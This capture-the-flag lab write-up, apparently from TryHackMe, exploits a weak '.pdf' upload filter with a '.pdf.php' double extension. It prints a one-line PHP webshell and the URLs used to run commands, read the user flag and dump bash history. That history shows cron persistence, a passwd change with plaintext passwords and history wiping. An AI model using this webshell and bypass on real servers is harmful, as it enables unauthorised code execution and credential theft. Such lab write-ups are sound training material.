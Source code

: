 **Vulnerability Identified:** The code checks for ".pdf" in the filename but does not validate the file extension properly. Files can be uploaded with a ".pdf.php" extension to bypass the filter and execute PHP code.

## Exploitation

### Webshell Upload

1. Created a PHP webshell file named `shell.pdf.php` with the following content:
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. Uploaded the file via the `/upload.php` endpoint.

3. Accessed the webshell at `http://10.201.4.127/cvs/shell.pdf.php?cmd=id`.

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Success:** Achieved remote code execution as `www-data` user.

### Initial Enumeration via Webshell

- Listed directory contents: `http://10.201.4.127/cvs/shell.pdf.php?cmd=ls`
  ```
  index.html
  shell.pdf.php
  ```

- Enumerated `/home`: `http://10.201.4.127/cvs/shell.pdf.php?cmd=ls%20/home`
  ```
  lachlan
  ```

- Listed user directory: `http://10.201.4.127/cvs/shell.pdf.php?cmd=ls%20/home/lachlan`
  ```
  bin
  user.txt
  ```

- Retrieved user flag: `http://10.201.4.127/cvs/shell.pdf.php?cmd=cat%20/home/lachlan/user.txt`
  ```
  thm{*************}
  ```

- Checked bash history: `http://10.201.4.127/cvs/shell.pdf.php?cmd=cat%20/home/lachlan/.bash_history`
  ```
  ./cve.sh
  ./cve-patch.sh
  vi /etc/cron.d/persistence
  echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
  ls -sf /dev/null /home/lachlan/.bash_history
  ```
